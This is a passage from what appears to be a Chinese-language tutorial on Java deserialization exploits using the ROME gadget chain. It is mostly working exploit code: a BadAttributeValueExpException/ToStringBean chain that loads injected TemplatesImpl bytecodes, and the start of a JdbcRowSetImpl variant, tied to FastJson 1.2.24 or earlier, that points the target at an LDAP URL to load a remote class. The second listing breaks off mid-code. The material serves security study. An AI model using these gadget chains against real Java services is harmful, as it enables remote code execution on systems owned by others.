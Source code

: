```plain
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(JdbcRowSetImpl):

JdbcRowSetImpl 在 FastJson 中在<=1.2.24 时使用的一个链子，这是针对后半段动态类加载不出网换成出网的操作：

```plain
package EXPROME;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class RomeJdbc {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:8085/zARQtFym";
        jdbcRowset.setDataSourceName(url);



        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        //再改回正常的参数
```